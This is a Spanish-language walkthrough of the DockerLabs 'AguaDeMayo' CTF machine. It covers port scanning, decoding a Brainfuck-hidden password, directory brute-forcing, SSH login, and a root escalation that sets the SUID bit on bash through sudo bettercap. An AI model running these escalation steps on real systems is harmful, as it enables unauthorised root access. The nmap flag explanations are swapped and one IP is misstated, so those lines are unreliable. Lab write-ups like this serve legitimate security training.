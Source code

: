 ## WRITEUP DE LA MÁQUINA AGUADEMAYO DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

> <span style="color:blue;">En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.</span>

```
─$ nmap -sC -sV 172.17.0.2 -oN outputscan.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 03:11 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.17.0.2):

![pagina web](https://github.com/user-attachments/assets/6c91aa72-6b41-4795-bd48-5be16dc12001)

Vemos que es una página web sencilla, como costrumbre reviso el código fuente con ```Ctrl + u```. Si no eres observador veras un código normal sin nada raro, peo cuando llegas a las últimas lineas vemos que todavía se puedo hacer mucho más scroll hacia abajo, y que vemos...?

```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Es normal no entender que sígnifican tantos caracteres pero si lo buscas en algun navegador o en alguna IA, te diran que es el lenguage de programación conocido como Brainfuck. Metiendo este codigo (Sin el ```<!-- y -->``` del principio y final, eso es solo para hacer un comentario en HTML) un decodificador que he encontrado (https://www.dcode.fr/brainfuck-language) nos muestra que dicho código significa: "bebeaguaqueessano". <br><br>
Tenemos lo que posiblemente sea una contraseña. Vamos ahora a buscar directorios ocultos en esta página web para ver si podemos encontrar algo, algún nombre de usuario, algún archivo o algo. Lo haremos mediante la herramienta Gobuster.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br><br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
El resultado:

```
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio oculto en la página llamado "images", lo ponemos en el navegador y vemos:

![Foto directorio images](https://github.com/user-attachments/assets/658bcb1b-7249-42ba-901d-ee6a24359f79)

Probe a descargar los datos y buscar información en los metadatos pero nada, es mucho más simple. Teniendo el nombre de la foto, "agua_ssh.jpg" me dice que el usuario al que debo hacer ssh es "agua" y su contraseña debería ser "bebeaguaqueessano".

```
ssh agua@172.17.0.2
```

Hacemos un ```Sudo -l``` para escalar privilegios, vemos que podemos ejecutar el binario bettercap. Lo ejecutamos mediante ```sudo /usr/bin/bettercap``` y nos sale:

```
agua@fb7a55388ca1:~$ sudo /usr/bin/bettercap 
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [08:16:10] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »  
```

Si escribimos help nos sale una lista de comandos y cosas que podemos ejecutar, vemos que para ejecutar comandos por la shell hay que poner un ! delante del comando:

![bettercap](https://github.com/user-attachments/assets/7bcff637-0ac9-40de-9d86-17274705f825)

Le vamos a dar al binario bash el permiso SUID (activar el bit SUID) y así poder ejecutar bash con los permisos de root sin serlo. Para ello escribimos ```chmod u+s /usr/bin/bash```;
<br><br>
"chmod" -> (change mode) es el comando para cambiar permisos.
<br>
"u" -> Cace referencia a "user", significa que cambiaremos permisos a user.
<br>
"+" -> Con el más conseguimos agregar los permisos que indiquemos.
<br>
"s" -> Hace referencia al permiso SUID (Set User ID), activa dicho bit.
<br>
"/usr/bin/bash" -> Esta es la ruta a la que vamos a sumar los permisos.
<br><br>
Salimos al usuario de agua con ```exit``` y escribimos ```bash -p``` (Usar bash -p te proporciona una shell de root, pero sin arriesgarte a heredar permisos SUID de otros binarios o de la shell en la que estabas trabajando.)

```
agua@fb7a55388ca1:~$ bash -p
bash-5.2# whoami
root          
```

Somos root, muchas gracias por seguir este writeup, nos vemos en la próxima!!
